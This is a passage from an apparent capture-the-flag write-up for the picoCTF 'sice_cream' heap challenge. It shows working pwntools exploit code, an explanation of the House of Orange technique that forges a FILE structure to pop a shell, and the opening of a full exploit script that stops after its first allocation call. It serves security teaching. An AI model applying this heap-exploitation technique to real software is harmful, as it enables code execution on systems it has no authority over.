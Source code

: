 ```python
payload += p64(leak) + p64(victim)            # <- set the bk pointer
payload += p64(0) + p64(1)                    # <- set to pass checks
payload =  list(payload.ljust(0x100, b"A"))   # <- pad to 256 bytes
payload[0xc0:0xc8] = p64(0)                   # <- set to pass checks
payload[0xd8:0xe0] = p64(0x602080)            # <- pointer to vtable
payload[0x58:0x60] = p64(shell)               # <- address of code to pop shell
payload = bytes(payload)
assert(len(payload) <= 256)
change(payload)

io.sendlineafter(delim, b"1")                 # allocate a chunk to
io.sendlineafter(delim, b"0")                 # trigger the exploit

io.interactive()
```

### House of Orange
When the final allocation occurs, `malloc` iterates over the chunks in the unsorted bin and attempts to find a chunk to return.
There will only be a single chunk in the unsorted bin, our fake chunk.
It writes the address of `unsorted_chunks(av)` into `bk->fd`, overwriting `_IO_list_all`. `malloc` then sorts the chunk into the fourth smallbin.
During the next iteration, `malloc` will detect irregularities and calls `malloc_printerr`, which calls `abort`, which calls `_IO_flush_all_lockp`.
Once inside `_IO_flush_all_lockp` it reads `_IO_list_all` to retrieve the address of the first FILE structure.
`_IO_flush_all_lockp` processes the first fake FILE structure but does not do anything, and moves on to the next FILE structure, which happens to be the fourth smallbin.
Thus it finally reads our crafted FILE structure and executes our one gadget, popping a shell.

## Full Exploit
```python
from pwn import *
import sys

if args.REMOTE:
    io = remote("jupiter.challenges.picoctf.org", 51860)
else:
    io = process("./sice_cream", stderr=sys.stdout)

delim = b"> "

def create(size, data):
    io.sendlineafter(delim, b"1")
    io.sendlineafter(delim, str(size).encode())
    if len(data) < size:
        data += b"\n"
    io.sendafter(delim, data)

def delete(index):
    io.sendlineafter(delim, b"2")
    io.sendlineafter(delim, str(index).encode())

def change(data):
    io.sendlineafter(delim, b"3")
    if len(data) < 0x100:
        data += b"\n"
    io.sendafter(delim, data)

io.sendline()

create(0, b"") # 0
```